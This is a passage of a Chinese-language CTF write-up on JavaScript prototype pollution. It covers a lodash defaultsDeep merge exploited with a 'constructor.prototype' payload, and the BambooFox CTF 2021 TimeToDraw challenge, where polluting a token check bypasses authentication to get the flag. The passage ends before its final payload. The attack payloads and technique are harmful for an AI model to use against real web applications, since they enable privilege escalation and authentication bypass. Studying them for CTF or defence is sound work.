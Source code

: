 ```jsx
const mergeObj = {}
mergeObj.constructor = {prototype: user.bpProto}
mergeObj.__proto__ = user.bpProto
parsedBody = _.defaultsDeep(mergeObj, JSON.parse(body))
```

合并的时候，如果能做到：

```jsx
mergeObj.constructor.prototype.public = true
// 或者
mergeObj.__proto__.public = true
```

因此 payload 为：

```jsx
"constructor": {"prototype": {"public": true}}

```

思考，为什么如下payload不行？

```jsx
"__proto__": {"public": true} // 试一试？
```
 BambooFox CTF 2021 TimeToDraw

原型链污染的点在：存在很明显的赋值动作
```javascript
app.get('/api/draw', (req, res) => {
    let { x, y, color } = req.query;
    if (x && y && color) canvas[x][y] = color.toString();
    res.json(canvas);
});
```

如果是admin用户，则token为 `secret.ADMIN_TOKEN`，我们不知道

如果没有进入这个if，则 userData.token 会去原型链上查找，所以千万不要成为admin!

```jsx
if (req.signedCookies.user && req.signedCookies.user.admin === true) {
  userData.isGuest = false;
  userData.isAdmin = req.cookies.admin;
  userData.token = secret.ADMIN_TOKEN;
}

if (req.query.token && req.query.token.match(/[0-9a-f]{16}/)
    && hash(`${req.connection.remoteAddress}${req.query.token}`) === userData.token) {
  res.send(secret.FLAG);
} else {
  res.send("NO");
}
```

因此payload如下：
